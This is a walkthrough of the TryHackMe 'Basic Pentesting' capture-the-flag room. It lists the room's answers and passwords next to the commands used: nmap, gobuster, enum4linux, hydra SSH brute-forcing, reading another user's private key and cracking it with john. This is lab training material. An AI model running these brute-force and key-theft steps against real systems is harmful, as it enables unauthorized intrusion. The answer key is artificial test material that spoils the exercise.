 # [BASIC PENTESTING](https://tryhackme.com/r/room/basicpentestingjt)  👨‍💻





◌ Deploy the machine and connect to our network
   
   ● ***No answer needed***



◌ Find the services exposed by the machine
   
   ● ***No answer needed***

   **Command:**
   > nmap -sV -A [Target_Machine_IP]



◌ What is the name of the hidden directory on the web server(enter name without /)?
   
   ● ***development***

   **Command:**
   > gobuster dir -u http://[Your_Target_IP] -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt



◌ User brute-forcing to find the username & password
   
   ● ***No answer needed***

   **Command:**
   > enum4linux -e [Target_Machine_IP]




◌  What is the username?

   ● ***jan***



◌ What is the password?

   ● ***armando***

   **Command:**
   > hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://[TARGET_MACHINE_IP]




◌ What service do you use to access the server(answer in abbreviation in all caps)?

   ● ***SSH***

   **Command:**
   > ssh jan@[TARGET_MACHINE_IP]



◌ Enumerate the machine to find any vectors for privilege escalation

   ● ***No answer needed***

   **Command:**
   > cd /home/kay
   > cd .ssh
   > cat id_rsa
   
   **Command:**
   > python3 /opt/john/ssh2john.py id_rsa.txt > decrypted.txt

   **Command:**
   > john --wordlist=/usr/share/wordlists/rockyou.txt decrypted.txt

   **Command:**
   > ssh -i /home/kay/.ssh/id_rsa kay@[TARGET_MACHINE_IP]




◌ What is the name of the other user you found(all lower case)?

   ● ***kay***


◌ If you have found another user, what can you do with this information?

   ● ***No answer needed***

  



◌ What is the final password you obtain?

   ● ***heresareallystrongpasswordthatfollowsthepasswordpolicy$$***

   **Command:**
   > cat pass.bak

   🥳🥳🥳

   # Tools Used:

   [Nmap](https://github.com/nmap/nmap)
   
   
   [Gobuster](https://github.com/OJ/gobuster)


   [Enum4linux](https://github.com/CiscoCXSecurity/enum4linux)


   [Hydra](https://github.com/vanhauser-thc/thc-hydra)


   [John the ripper](https://github.com/openwall/john)




   

   































